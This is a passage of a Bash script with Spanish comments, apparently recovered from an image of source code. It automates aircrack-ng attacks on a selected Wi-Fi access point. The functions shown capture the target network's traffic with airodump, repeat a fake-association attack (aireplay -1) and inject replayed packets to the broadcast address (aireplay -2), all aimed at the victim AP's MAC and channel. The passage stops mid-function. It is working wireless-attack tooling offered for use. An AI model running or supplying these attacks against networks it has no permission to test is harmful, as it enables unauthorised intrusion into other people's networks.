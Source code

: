 #CAPTURAR TRÁFICO DE LA RED SELECCIONADA
captura_de_paquetes()
{
if [ "$INTERFAZ_GRAFICA" = "SI" ]
then
	xterm -hold $NORMAL $FUENTE $AIRODUMP_VENTANA -title "Capturando tráfico de \"$NOMBRE_AP\"" -e $AIRODUMP --bssid $MAC_AP -c $CANAL,$CANAL -w "$CAPTURA/$NOMBRE_AP ($MAC_GUIONES)" $INTERFAZ_MONITOR &
else
	$SCREEN -t "Captura" $AIRODUMP --bssid $MAC_AP -c $CANAL,$CANAL -w "$CAPTURA/$NOMBRE_AP ($MAC_GUIONES)" $INTERFAZ_MONITOR
fi
}

#ESPERA A QUE SE CIERRE EL COMANDO QUE SE PASA COMO PARÁMETRO
esperar_cierre()
{
AIREPLAY_FUNCIONANDO=`ps 2>/dev/null | grep "$1" | grep -v grep`
while [ "$AIREPLAY_FUNCIONANDO" != "" ]
do
	sleep 1
	AIREPLAY_FUNCIONANDO=`ps 2>/dev/null | grep "$1" | grep -v grep`
done
}

#ASOCIACION FALSA
asociacion_falsa()
{
iwconfig $INTERFAZ_MONITOR channel $CANAL 2>/dev/null
let INTENTOS_ASOCIACION=1
comprobar_airodump #controla si se ha cerrado la captura de tráfico
while [ "$AIRODUMP_FUNCIONANDO" != "" ]
do
	if [ "$INTERFAZ_GRAFICA" = "SI" ]
	then
		xterm $NORMAL $FUENTE $ASOCIACION_VENTANA -title "ATAQUE -1 [Asociación falsa] #$INTENTOS_ASOCIACION" -e $AIREPLAY -1 30 -o 1 -q 10 -e "$NOMBRE_AP" -a $MAC_AP -h $MAC_INTERFAZ $INTERFAZ_MONITOR
	else
		$SCREEN -dm -t "Asociación" $AIREPLAY -1 30 -o 1 -q 10 -e "$NOMBRE_AP" -a $MAC_AP -h $MAC_INTERFAZ $INTERFAZ_MONITOR
		esperar_cierre "negative-one -1"
	fi
	let INTENTOS_ASOCIACION=$INTENTOS_ASOCIACION+1
	comprobar_airodump #controla si se ha cerrado la captura de tráfico
done
}

#INYECCION DE TRÁFICO - ATAQUE 2
ataque_2()
{
if [ "$INTERFAZ_GRAFICA" = "SI" ]
then
	xterm $NORMAL $FUENTE $ATAQUE2_VENTANA -title "ATAQUE -2 [Selección automática del paquete]" -e $AIREPLAY -2 -p 0841 -F -c FF:FF:FF:FF:FF:FF -b $MAC_AP -h $MAC_INTERFAZ $INTERFAZ_MONITOR
else
	$SCREEN -dm -t "ataque-2" $AIREPLAY -2 -p 0841 -F -c FF:FF:FF:FF:FF:FF -b $MAC_AP -h $MAC_INTERFAZ $INTERFAZ_MONITOR
	esperar_cierre "$AIREPLAY -2 -p"
fi
comprobar_airodump
if [ "$AIRODUMP_FUNCIONANDO" != "" ] #si falla el ataque espera a que se cierre airodump para cerrarse
then
	if [ "$INTERFAZ_GRAFICA" = "SI" ]
	then